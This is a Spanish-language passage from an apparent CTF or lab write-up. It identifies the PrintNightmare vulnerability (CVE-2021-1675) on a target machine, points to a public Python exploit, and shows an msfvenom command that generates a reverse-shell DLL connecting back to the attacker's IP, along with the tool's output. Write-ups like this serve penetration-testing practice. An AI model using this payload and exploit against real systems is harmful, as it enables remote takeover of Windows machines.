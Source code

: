 Podemos ver que efectivamente existen vulnerabilidades, es la llamada PrintNightmare (CVE-2021-1675).

Utilizaremos la versión con python, debido a que en la máquina no podemos ejecutar ningún archivo por motivos de seguridad, en el [github](https://github.com/cube0x0/CVE-2021-1675) encontraremos el .py que necesitamos para explotar la vulnerabilidad.

El primer paso consiste en clonarse el repositorio.

Luego, crearemos un payload .dll con `msfvenom` que realice una conexión reversa a nuestra máquina:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.17 LPORT=4444 -f dll > shell-x64.dll
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes
```
